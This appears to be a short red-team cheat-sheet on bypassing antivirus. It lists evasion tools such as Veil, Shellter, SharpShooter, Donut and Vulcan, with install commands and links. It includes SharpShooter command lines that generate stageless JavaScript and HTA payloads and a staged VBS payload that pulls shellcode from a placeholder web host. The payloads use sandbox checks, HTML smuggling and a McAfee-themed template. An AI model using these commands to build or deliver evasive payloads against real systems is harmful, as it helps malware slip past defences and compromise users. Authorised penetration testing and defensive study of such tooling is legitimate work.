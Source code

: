 # Bypassing AV

### Veil Framework: <a id="veil-framework"></a>

Install on Kali:

```text
apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

Reference: [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)

### Shellter <a id="shellter"></a>

Source: [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/)

```text
apt install shellter
```

### Sharpshooter <a id="sharpshooter"></a>

Javascript Payload Stageless:

```text
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Stageless HTA Payload:

```text
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Staged VBS:

```text
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

Reference: [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

### Donut: <a id="donut"></a>

Source: [https://github.com/TheWover/donut](https://github.com/TheWover/donut)

### Vulcan <a id="vulcan"></a>

Source: [https://github.com/praetorian-code/vulcan](https://github.com/praetorian-code/vulcan)

